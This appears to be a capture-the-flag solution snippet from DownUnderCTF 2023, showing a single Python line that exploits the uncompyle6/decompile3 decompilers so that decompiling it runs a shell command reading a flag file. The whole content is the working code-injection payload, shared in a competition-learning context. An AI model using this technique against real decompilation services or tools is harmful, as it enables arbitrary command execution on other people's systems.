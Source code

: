 # Uncompyle6/decompile3 RCE

```py
# Credits: @hashkitten
foo('%{__import__("os").system("cat /flag")}', **x, y=1)
```

Source: https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/misc/daas/solution/exploit.py